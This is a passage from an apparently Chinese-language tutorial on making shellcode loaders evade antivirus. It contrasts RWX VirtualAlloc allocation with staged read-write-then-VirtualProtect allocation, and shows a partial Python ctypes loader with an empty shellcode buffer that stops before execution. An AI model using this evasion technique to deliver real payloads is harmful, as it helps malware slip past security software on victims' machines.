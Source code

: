 ![](img/2.png)

​	上文中通过调用`kernel32.dll`动态链接库中的`VirtualAlloc`函数申请一块可读可写可执行内存是最原始的方式，随着杀软的更迭已经变得无免杀能力，接着便出现了渐进式加载模式。在`shellcode`读入时，申请一个普通的可读写的内存页，然后再通过`VirtualProtect`来修改其属性为可执行。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
最原始的方式，利用VirtualAlloc申请一块可读可写可执行的内存页
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),
    ctypes.c_int(len(shellcode)),
    ctypes.c_int(0x3000),
    ctypes.c_int(0x04),
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
```